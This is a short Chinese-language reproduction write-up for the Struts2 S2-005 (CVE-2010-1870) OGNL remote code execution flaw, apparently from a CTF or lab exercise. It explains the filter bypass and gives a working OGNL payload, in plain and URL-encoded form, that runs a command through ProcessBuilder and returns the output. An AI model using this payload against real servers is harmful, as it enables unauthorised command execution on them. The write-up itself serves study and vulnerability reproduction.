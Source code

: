 ## 1. 漏洞介绍
struts2会将http的每个参数名解析为OGNL语句执行(可理解为java代码)。OGNL表达式通过#来访问struts的对象，struts框架通过过滤#字符防止安全问题，然而通过unicode编码(u0023)或8进制(43)即绕过了安全限制，对于S2-003漏洞，官方通过增加安全配置(禁止静态方法调用和类方法执行等)来修补，但是安全配置被绕过再次导致了漏洞，攻击者可以利用OGNL表达式将这2个选项打开。    

[阿里云漏洞库](https://avd.aliyun.com/detail?id=AVD-2010-1870)
## 2. 漏洞分析    
**原理：**[CVE-2010-1870 S2-005复现 - 美式加糖 - 博客园](https://www.cnblogs.com/peace-and-romance/p/15626196.html)

**利用：**[CVE-2010-1870 S2-005 远程代码执行漏洞-腾讯云开发者社区-腾讯云](https://cloud.tencent.com/developer/article/2197844) 
## 3. 漏洞复现
**payload：**

```Java
redirect:${#req=#context.get('co'+'m.open'+'symphony.xwo'+'rk2.disp'+'atcher.HttpSer'+'vletReq'+'uest'),#s=new java.util.Scanner((new java.lang.ProcessBuilder('cat /flag'.toString().split('\\s'))).start().getInputStream()).useDelimiter('\\AAAA'),#str=#s.hasNext()?#s.next():'',#resp=#context.get('co'+'m.open'+'symphony.xwo'+'rk2.disp'+'atcher.HttpSer'+'vletRes'+'ponse'),#resp.setCharacterEncoding('UTF-8'),#resp.getWriter().println(#str),#resp.getWriter().flush(),#resp.getWriter().close()}
```

**url 编码后**

```http
redirect%3A%24%7B%23req%3D%23context.get%28%27co%27%2B%27m.open%27%2B%27symphony.xwo%27%2B%27rk2.disp%27%2B%27atcher.HttpSer%27%2B%27vletReq%27%2B%27uest%27%29%2C%23s%3Dnew%20java.util.Scanner%28%28new%20java.lang.ProcessBuilder%28%27cat%20%2Fflag%27.toString%28%29.split%28%27%5C%5Cs%27%29%29%29.start%28%29.getInputStream%28%29%29.useDelimiter%28%27%5C%5CAAAA%27%29%2C%23str%3D%23s.hasNext%28%29%3F%23s.next%28%29%3A%27%27%2C%23resp%3D%23context.get%28%27co%27%2B%27m.open%27%2B%27symphony.xwo%27%2B%27rk2.disp%27%2B%27atcher.HttpSer%27%2B%27vletRes%27%2B%27ponse%27%29%2C%23resp.setCharacterEncoding%28%27UTF-8%27%29%2C%23resp.getWriter%28%29.println%28%23str%29%2C%23resp.getWriter%28%29.flush%28%29%2C%23resp.getWriter%28%29.close%28%29%7D
```

![flag.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202310041204715.png)
